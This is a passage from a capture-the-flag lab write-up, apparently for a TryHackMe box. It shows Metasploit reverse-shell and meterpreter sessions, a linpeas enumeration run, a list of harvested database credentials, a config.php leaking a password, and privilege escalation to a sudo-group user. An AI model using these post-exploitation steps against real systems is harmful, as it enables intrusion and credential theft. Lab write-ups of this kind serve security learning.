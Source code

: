 ```
[*] Stopping exploit/multi/handler
msf5 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                                                              Connection
  --  ----  ----                   -----------                                                              ----------
  1         shell cmd/unix                                                                                  10.9.123.226:4444 -> 10.10.207.249:51362 (10.10.207.249)
  2         meterpreter x86/linux  no-user @ ubuntu (uid=109, gid=117, euid=109, egid=117) @ 10.10.207.249  10.9.123.226:4433 -> 10.10.207.249:47894 (10.10.207.249)
```

<br>

## Internal Enumerations

running [Linpeas.sh](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) gave us the overal overview about our target, with some credentials from the database.

```
extracted some passwords
postgres:password
tryhackme:Hacktheplanet!
sistemas:1234abcd
ti:abcd1234
darkstart:qwerty
ssh_user:poster:batman'
poster:batman
```

and a really intersting file 

```
postgres@ubuntu:~$ cat /var/www/html/config.php
cat /var/www/html/config.php
<?php 
	
	$dbhost = "127.0.0.1";
	$dbuname = "alison";
	$dbpass = "p4ssw0rdS3cur3!#";
	$dbname = "mysudopassword";
```


with that passwods we can login as alison user


```
postgres@ubuntu:~$ su alison
Password: p4ssw0rdS3cur3!#
alison@ubuntu:~$ id
uid=1000(alison) gid=1000(alison) groups=1000(alison),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```
